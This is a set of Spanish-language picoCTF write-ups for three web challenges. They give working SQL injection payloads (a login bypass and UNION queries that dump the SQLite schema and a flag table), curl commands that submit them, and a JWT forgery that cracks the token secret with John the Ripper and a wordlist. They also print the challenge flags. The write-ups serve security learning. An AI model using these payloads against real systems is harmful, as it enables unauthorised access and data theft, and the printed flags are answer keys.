 
# Irish-Name-Repo 1

There is a website running at https://jupiter.challenges.picoctf.org/problem/33850/ http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
Try to think about how the website verifies your login.


## Desde navegador

1. Ingresamos a la página
2. No tenemos la contraseña para ingresar
3. Inspeccionar
4. Cambiamos el valor del campo debug de 0 a 1
```
 <input type="hidden" name="debug" value="0">
 <input type="hidden" name="debug" value="1">
```
5. Volvemos a lanzar la petición de acceso
6. Seguimos sin poder ingresa pero conocemos la forma en la que se valida el usuario
```
username: admin
password: holamundo (yo la ingrese)
SQL query: SELECT * FROM users WHERE name='admin' AND password='holamundo'

# Login failed.
```
7. Usamos una inyección SQL básica y obtenemos la bandera
```
username: admin
password: ' or 1==1;

output:
# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```

Al usar la sentencia `' or 1==1;` obtenemos la sentencia query `SELECT * FROM users WHERE name=='admin' AND password=='' or 1==1;'`, la cual es verdadera y permite el acceso.


## Desde consola

1. Abrimos una terminal
2. Usamos el comando curl
```
curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=holamundo&debug=1"
```
Aunque el link original es .html, lo cambiamos a .php porque en el código fuente pudimos ver que la petición se redirecciona a este sitio
```
<form action="[login.php](view-source:https://jupiter.challenges.picoctf.org/problem/33850/login.php)" method="POST">
```
3. Usamos la inyección
```
curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=' or 1==1;&debug=1"
```
4. Obtenemos la bandera
```
<pre>username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>  
```


**Fuentes:**

- [Video explicación](https://www.youtube.com/watch?v=0EDbUSDqrng&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=7&t=47s)
- [sql injection](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbDVrMVIzb2RYUm14MVdrUnlXTFR4OUNQZWpvd3xBQ3Jtc0ttS1IwNXpNZzBuT3hVY1NYR0E2SlFvYmc5S2xtdHBrSnByd3hxVTZFak13b3FsVlBBbFU4V2N1UU5nSmtaSnVKUUFEUGl3aGp5My02clVPV004dVoxNzhCTmtSVUhqM1dJOXBlTUpNcjV6dFlyeUU3OA&q=https%3A%2F%2Fwww.w3schools.com%2Fsql%2Fsql_injection.asp&v=0EDbUSDqrng)



# More SQLi

Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:54524/).

## Desde navegador

1. Vamos a la página
2. Intentamos ingresa con un usuario y contraseña random
```
username: admin
password: holamundo
SQL query: SELECT id FROM users WHERE password = 'holamundo' AND username = 'admin'
```
3. Probamos con la inyección `' or 1==1;La inyección SQL varía según el motor de la base de datos.`
4. Ingresamos. Ahora debemos encontrar la bandera en alguna tabla de la base de datos.
5. Primero, debemos conocer la versión del motor. Ingreamos los comandos en el campo de búsqueda.
```
' union select sqlite_version(),2,3...[n columna];

output: 3.31.1
```
6. Intentamos con dos comando para extraer la estructura de las tablas
```
' union select sql,2,3 from sqlite_schema;

output: None
```

```
' union select sql,2,3 from sqlite_master;

output: obtenemos la estructura y encontramos una tabla que podría estar relacionada con el reto
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
```
7. Extraemos los datos de la tabla
```
' union select id,flag,3 from more_table;
```
8. Encontramos la bandera
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}
```


## Desde BurpSuite

1. Ingresamos a la página
2. Activamos el proxy
3. Realizamos el ataque de inyección SQL
4. Revisamos en POST -> Pretty


## Desde BurpSuite

1. Ingresamos a la página
2. Interceptamos la inyección
3. Vamos la solicitud inicial
4. Vamos a la respuesta
5. Obtenemos la bandera


**Fuentes:**
- [Video explicación](https://www.youtube.com/watch?v=clMe4yqL6yU)
- [Web Explotation - More SQLi](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbG92dmhFUXdpUVE4RklFTUhvMHNBYlhqeldjQXxBQ3Jtc0ttYUxQWUdLcFRoNFhiRWhEcUlibWFNTGw0ZDh5azNVM3F5VlpZdDZ3T1NUTWhFeG5qX2xOamRzTmZCelZjNHVOaGN0MlJmdU9oYWlWY2E0TF9RclpySG0wREp2TkxkTWU4Q3hJWWlkbG1sWUxCTG5FYw&q=https%3A%2F%2Fplay.picoctf.org%2Fpractice%2Fchallenge%2F358&v=clMe4yqL6yU)



# JaWT Scratchpad

Internal server errors can be intentionally returned by this challenge. If you experience one, try clearing your cookies.
What is that cookie?
Have you heard of JWT?

1. Ingresamos a la página
2. No nos permite usar el nombre de usuario 'admin' para ingresar
3. Accedemos con otro nombre de usuario
4. Revisamos las cookies
5. Buscamos el token jwt y lo copiamos
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2FpbG9yayJ9.PJjfmTRDNYPGIhi_ZtoCUPQ1DKOTl1oAAUtB8Ypd6E0
```
5. Vamos a la jwt.io y pegamos en la parte de debugger para decodificarlo
6. Asignamos "admin" en user. Copiamos el nuevo token
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww
```
7. Enviamos otra petición con el nuevo token
```
output: 
# Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```
La cookie no se puede cambiar tan fácil, tiene un password que no conocemos. Así que tendremos que crakearla.
8. Borramos la cookie modificada y volvemos a hacer una petición
9. Copiamos la cookie original y la pegamos en un archivo en terminal
```
nano [nombre_archivo]

cat [nombre_archivo]
output: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2FpbG9yayJ9.PJjfmTRDNYPGIhi_ZtoCUPQ1DKOTl1oAAUtB8Ypd6E0 
```
10. Haremos un ataque de diccionario. Revisamos la lista de palabras de palabras para probar
```
ls /usr/share/wordlists
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
11. Revisamos lo que hay dentro de rockyou.txt
```
head /usr/share/wordlists/rockyou.txt

output:
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
```
12. Instalamos la herramienta de crakeo 
```
sudo apt install john  
```
13. Ingresamos la cookie en John
```
john hash -w=/usr/share/wordlists/rockyou.txt
```
14. Obtenemos la palabra clave
```
ilovepico
```
15. Modificamos la cookie original en jwt.io user = admin, password = ilovepico
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
16. Ingresamos 
17. Modificamos la cookie
18. Refrescamos
19. Obtenemos la bandera
```
picoCTF{jawt_was_just_what_you_thought_f859ab2f}
```


**Fuentes:**
- [Video explicación](https://www.youtube.com/watch?v=iaKbvrbcSko)
- [Web - JaWT Scratchpad](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqa1JxbzdMdmVkbmpjSTZsZ2otT0xDZXZQTF9PUXxBQ3Jtc0trRENPR2k1RG1jNFNPQkZZZXFscXYyQ2JvVTdaX255YnVKTXRzNkk4QzB3UnFhZXg3OHRka05xQ2RBdS1LWWQyMXh4WkNsWWVscG84dFVfSmF3ODhmSGFXY0dpcnhOUWFkYTFNdEg3dDFscm44ZG1Caw&q=https%3A%2F%2Fplay.picoctf.org%2Fpractice%2Fchallenge%2F25&v=iaKbvrbcSko)
- [Herramienta para craking](https://github.com/openwall/john)